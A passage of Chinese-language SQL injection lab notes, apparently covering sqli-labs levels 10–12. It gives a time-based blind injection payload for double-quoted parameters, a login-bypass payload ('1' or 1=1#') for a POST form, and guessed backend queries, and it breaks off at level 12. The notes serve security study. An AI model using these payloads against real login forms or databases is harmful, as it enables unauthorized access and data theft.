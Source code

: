 



#### 10

此题和9题基本一样。只是后端sql语句选择了使用双引号`""`来包裹。而不是9题中的单引号



payload：

```
?id=1" and if(length(database())>1,sleep(1),1)%23
```



猜测后端sql语句：

```
select * from user where id="前端传来的数据"s limit 0,1;
```





### POST基本注入

#### 11.	post登录注入

遇到post的题应该最开始还是要进行信息探测：测试敏感字符

> POST

十题之前都是通过get方式来进行注入。

此题为通过登录的，post注入。





payloay

```
Username:1' or 1=1#
Password:任意
```

> 因为后面的密码被注释掉了，所以填任意都行。





猜测后端sql语句：

```
select * from users where username='前端传的数据' and password='前端传的数据' limit 0,1;
```





#### 12.

> POST
